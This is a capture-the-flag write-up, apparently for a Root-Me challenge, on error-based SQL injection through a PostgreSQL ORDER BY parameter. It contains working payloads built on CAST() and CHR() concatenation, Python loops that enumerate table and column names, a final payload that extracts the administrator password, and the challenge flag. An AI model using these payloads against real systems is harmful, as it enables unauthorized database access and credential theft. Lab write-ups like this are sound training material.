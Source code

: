 # SQL injection - Error

**Title**: Exploiting SQL error

**Point:** 40 Points

**Description:** Retrieve administrator’s password.

## Solution:F

First, we have to find the SQLi point. Try `1'` in login form but it's not worked. Access **Contents**, we can see the URL `?action=contents&order=ASC` with 2 parameters `action` and `order`. The possible SQLi point is in `order`.

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/160273512-430dad81-59d4-42d6-8d9c-ad88ed5081f7.png"/> </p>

Try simple payload:

```
123' or 1=1 -- 
```

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/160273597-484fa0ff-2df0-4a09-af08-71046a69f741.png"/> </p>

We can see  full query in this chall and find out our input is appended to `order by page `. With this injecting position, we can't use any directly keyword like `UNION`, `WHERE`, `AND`, `OR` ... because **order by** is often a keyword at the end of the query. With some samples, we can find out the **filter** in back-end server.

Filter: `;`

We can confirm this is an order-by injection with:

```
ASC 
```
**NOTE: With some testing like using unique function like BINARY_CHECKSUM(MySQL), sqlite_verion(SQLite), ... and combine with error message format. We can easily detect this site use PostgreSQL**

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/160276600-7a6e1798-3548-4db4-b816-526c57061b6a.png"/> </p>


[Reference the exploitation](https://portswigger.net/support/sql-injection-in-the-query-structure). To retrieve administrator’s password, we will take advantage of `CAST` function. This function's work is just simply trying to convert string to a specified type. For example, `CAST('123' as int)` will return `123`. But `CAST('khangtictoc' as int)` will return error message.

**NOTE: With MySQL, if CAST doesn't success. It will return '0'**

Construct payload using `CAST()` and put into the second parameter in `ORDER BY`. Use a query for returning the result when error happens when `CAST()` is triggered. Beside, `CAST()` only have 1 value, make sure our query return 1 rows

In PostgreSQL, there're 2 worth-mention table is `information_schema.tables` and `information_schema.columns` saving information for each database. We would try to retrieve table's info. Payload:

```
asc, cast((select table_name from information_schema.talbes limit 1 offset 0) as int)
```

**NOTE: limit the number of rows by using limit. PostgreSQL don't allow to use any syntax like `LIMIT 1, 2`. We have to use keyword `OFFSET` in our query.**

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/160275468-1e7b91a8-b20f-4bfb-84b1-bf4be974da5b.png"/> </p>

We have successfully retrieve the first table `m3mbr35t4bl3` in table. The point is, we just only get 1 values and we have to change the offset to get next value. So another way to do this quick is use **brute-force**. Use python code:

```python
import requests 
i = 0 
while(True):
    request = requests.get("http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=asc, cast((select table_name from information_schema.tables limit 1 offset " + str(i) + ") as int)")
    response = request.text
    content = response[response.find("invalid")::]
    print(content)
    i += 1
```

This loop runs forever until we find a "doubting" table. After running a period of time, I realize the first table `m3mbr35t4bl3` is the correct table all the time   (~ . ~) and other tables belong to system.

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/160277266-3bcfc109-0f86-458a-be28-2af7ab780bb7.png"/> </p>


Try similar payload to retrieve all the **columns** in `information_schema.columns` which has our target table `m3mbr35t4bl3`

```
asc, cast((select column_name from information_schema.columns where table_name='m3mbr35t4bl3' limit 1 offset 0) as int)
```

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/160275810-71b2800b-ca01-4a7c-81f2-ab61cc7506d4.png"/> </p>

This make me silent for a long time. After searching , I've known that **PostgreSQL** doesn't allow string like `'m3mbr35t4bl3'` as parameter - this will alert error syntax; also if we use double quote `"m3mbr35t4bl3"` instead, it would consider this `m3mbr35t4bl3` as a identifier. So we can use some method to construct a string like using `CHR()` function with ascii code to get the characters and combine with `||` to concat those into a string. Use this python code for quick generating: 

```python 
a = "m3mbr35t4bl3"
result = ""
for i in range (len(a)):
    if i != len(a) - 1:
        result += "chr(" + str(ord(a[i])) + ") || "
    else:
        result += "chr(" + str(ord(a[i])) + ")"
print(result)
```

Output:

```
chr(109) || chr(51) || chr(109) || chr(98) || chr(114) || chr(51) || chr(53) || chr(116) || chr(52) || chr(98) || chr(108) || chr(51)
```

Create payload again, replace `'m3mbr35t4bl3'` with the output above:

```
asc, cast((select column_name from information_schema.columns where table_name=chr(109) || chr(51) || chr(109) || chr(98) || chr(114) || chr(51) || chr(53) || chr(116) || chr(52) || chr(98) || chr(108) || chr(51) limit 1 offset 0) as int)
```

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/160276020-77f35d09-9804-4172-90a2-c76d1c472d73.png"/> </p>

It's worked !!! Change the query request in python code to brute-force all columns

```python
import requests 

i = 0 
while(True): 
    request = requests.get("http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=asc, cast((select column_name from information_schema.columns where table_name=chr(109) || chr(51) || chr(109) || chr(98) || chr(114) || chr(51) || chr(53) || chr(116) || chr(52) || chr(98) || chr(108) || chr(51) limit 1 offset " + str(i) + ") as int)")
        
    response = request.text
    content = response[response.find("invalid")::]
    print(content)
    i += 1
```

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/160276192-508fd42e-9ce3-4dab-ac1d-80b9ddf68ee1.png"/> </p>


There's only 4 values returned. As we can see, `us3rn4m3_c0l` and `p455w0rd_c0l` is 2 columns that may contain 'username' and 'password'. Use 2 payload to retrieve each pair (username - password) to ensure the correct password.

```
asc, cast((select us3rn4m3_c0l from m3mbr35t4bl3 limit 1 offset 0) as int)
```

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/160276342-29a23d49-1915-46c8-ae23-2a6f7e1188e8.png"/> </p>

```
asc, cast((select p455w0rd_c0l from m3mbr35t4bl3 limit 1 offset 0) as int) 
```

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/160276379-f3ead8b2-ee7b-43fd-8509-776cf375548b.png"/> </p>

**NOTE: This challenge is great ! They often put our target value returned in the first row. If `username` or `password` in the middle or at the end of the table. We will need to brute-force again.**

Final payload http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=asc,%20cast((select%20p455w0rd_c0l%20from%20m3mbr35t4bl3%20limit%201%20offset%200)%20as%20int)

Code Python used: [Brute-force](Brute-force.py) and [Generating string](Generating_string.py)

Flag: **1a2BdKT5DIx3qxQN3UaC**
